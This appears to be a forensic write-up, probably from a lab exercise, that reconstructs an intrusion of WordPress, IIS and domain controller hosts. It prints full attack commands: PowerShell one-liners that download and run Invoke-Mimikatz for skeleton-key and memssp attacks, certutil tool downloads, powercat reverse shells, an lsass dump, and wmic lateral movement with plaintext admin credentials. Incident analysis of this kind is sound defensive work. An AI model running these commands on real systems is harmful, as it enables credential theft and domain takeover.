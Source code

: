 # how attack
* ubuntu wordpress web server : ```CVE-2019-9978``` to get webshell and ```sqlmap``` to get wropress admin account

* windows IIS server : ```CVE-2020-0688``` (awaiting to determinate) attack and create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1)

* windows dc server : in IIS server execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```) and use Minikatz to get dc's admin 's account and password (/user:TEAMT5\Administrator /password:admin12345!!!) and connect by IIS server

# Horizon move
* ubuntu -> IIS : post bt.ext and nt.exe by tunnel

* IIS -> dc : create process ipconfig.exe via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"```

# timeline


# fornesis result
## windows IIS server
* 2020/8/4 AM 08:42:33 CVE-2020-0688 (awaiting to determinate)
```
c:\windows\system32\inetsrv\w3wp.exe -ap "ASP.NET v4.0" -v "v4.0" -l "webengine4.dll" -a \\.\pipe\iisipm127dc09c-653d-45f2-8d87-b91abf5fdbce -h "C:\inetpub\temp\apppools\ASP.NET v4.0\ASP.NET v4.0.config" -w "" -m 0 -t 20
```
* 2020/8/4 AM 08:48:26 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` with role ```SYSTEM```

* 2020/8/4 AM 08:51:25 execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```)

* 2020/8/4 AM 09:12:51 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/nt.exe nt.exe``` to download ```nt.exe``` from ubuntu server

* 2020/8/4 AM 09:13 execute ```nt.exe``` with various parameter
    * -help
    * /h

* 2020/8/4 AM 09:16:02 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/bt.exe bt.exe``` to download ```bt.exe``` from ubuntu server

* 2020/8/4 AM 09:16:29 execute ```bt.exe 192.168.1.0/24``` in ```C:\Users\Public\Music\```

* 2020/8/5 AM 07:34:16 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88```

* 2020/8/5 AM 08:58:20 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.2.165```

* 2020/8/5 AM 09:07:15 download string from ```http://10.20.2.206/test.txt``` as ```test.aspx```


* 2020/8/5 PM 10:07:07 create [aspx webshell](https://raw.githubusercontent.com/tennc/webshell/master/aspx/AspxSpy2014Final.aspx) at ```inetpub/wwwroot/UmbracoCms/Umbraco```

* 2020/8/5 PM 10:25:34 RPC ```192.168.1.4``` via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"```


* 2020/8/5 PM 10:26:13 invoke Mimikatz via ```c:\windows\system32\cmd.exe" /c wmic process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'\"``` to create password skeleton key

* 2020/8/5 PM 10:26:25 invoke Mimikatz via ```wmic  process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'\""``` to modify ```lsass.exe```

* 2020/8/5 PM 10:27:32 ```"c:\windows\system32\cmd.exe" /c net use z: \\WIN-LN8SES7K1Q5\C$ /user:TEAMT5\Administrator mimikatz```

## ubuntu wordpress web server
* 03/Aug/2020:09:38:35, ```CVE-2019-9978``` and post shell, ```bt.exe```, ```nt.exe``` by ```10.20.3.131```

* 04/Aug/2020:08:49:26, start to ```sqlmap``` by ```10.20.2.227```

* 04/Aug/2020:09:16:31, tunnel (npv) start

* 04/Aug/2020:09:42:07, use tunnel scan internet

* 04/Aug/2020:09:45:56, login wordpress with admin account by ```10.20.2.165```

* 04/Aug/2020:10:23:15, use tunnel request ```http://192.168.1.3/Umbraco/aaaa.aspx``` it's old webshell

* 04/Aug/2020:22:15:48, use tunnel request ```http://192.168.1.2/admine21_decode.php``` I don't know what it mean

* 04/Aug/2020:23:04:21, use tunnel request ```http://192.168.1.3/umbraco/AspxSpy2014Final.aspx``` it's webshell

* 04/Aug/2020:23:07:16, use tunnel request ```http://192.168.1.3/umbraco/bbbb.aspx``` it's webshell

## windows dc server
* 2020/08/04:09:23:44, invoke Mimikatz via ```cmd.exe /Q /c IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" 1> \\127.0.0.1\ADMIN$\__1596450222.629457 2>&1``` by ```WIN-LN8SES7K1Q5$```

* 2020/08/04:09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ```

* 2020/08/04:09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ```

* 2020/08/04:09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ```

* 2020/08/04:09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ```

* 2020/08/05:22:25:34, exec ipconfig.exe by ```TEAMT5\Administrator```
